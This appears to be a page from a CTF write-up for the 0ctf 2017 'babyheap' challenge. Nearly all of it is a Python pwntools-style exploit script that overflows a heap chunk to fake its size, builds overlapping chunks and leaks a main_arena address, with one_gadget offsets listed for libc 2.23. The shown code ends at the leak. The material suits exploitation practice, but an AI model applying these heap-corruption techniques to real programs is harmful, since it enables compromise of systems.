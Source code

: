 

## 0ctf_2017_babyheap

弱化版roarctf_2019_easy_pwn

```python
from pwn_debug import *
context.log_level = 'debug'

pdbg = pwn_debug('./0ctf_2017_babyheap')
pdbg.local("/home/xyc/libc/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so", "/home/xyc/libc/libs/2.23-0ubuntu11.3_amd64/ld-2.23.so")
pdbg.remote("node4.buuoj.cn", 29955, "/home/xyc/share/s/libc-2.23_x64.so")

p = pdbg.run('local')
libc = pdbg.libc
elf = pdbg.elf

one_gadget = [0x45216, 0x4526a, 0xf02a4, 0xf1147, 0x4527a]

def add(size):
	p.recvuntil('Command: ')
	p.sendline('1')
	p.recvuntil('Size: ')
	p.sendline(str(size))

def fill(index, size, content):
	p.recvuntil('Command: ')
	p.sendline('2')
	p.recvuntil('Index: ')
	p.sendline(str(index))
	p.recvuntil('Size: ')
	p.sendline(str(size))
	p.recvuntil('Content: ')
	p.send(content)

def free(index):
	p.recvuntil('Command: ')
	p.sendline('3')
	p.recvuntil('Index: ')
	p.sendline(str(index))

def show(index):
	p.recvuntil('Command: ')
	p.sendline('4')
	p.recvuntil('Index: ')
	p.sendline(str(index))
	
	
add(0x10)  #0
add(0x10)  #1
add(0x80)  #2
add(0x10)  #3
payload1 = 'a'*(0x10) + p64(0) + p64(0xb1)
fill(0, len(payload1), payload1)
free(1)
add(0xa0) #1(has2)
fill(1, 0x20, 'a'*0x10 + p64(0) + p64(0x91))
free(2)
show(1)
p.recvuntil('Content: ')
p.recv(0x21)
main_arena_addr = u64(p.recv(6).ljust(8, '\x00')) - 88
```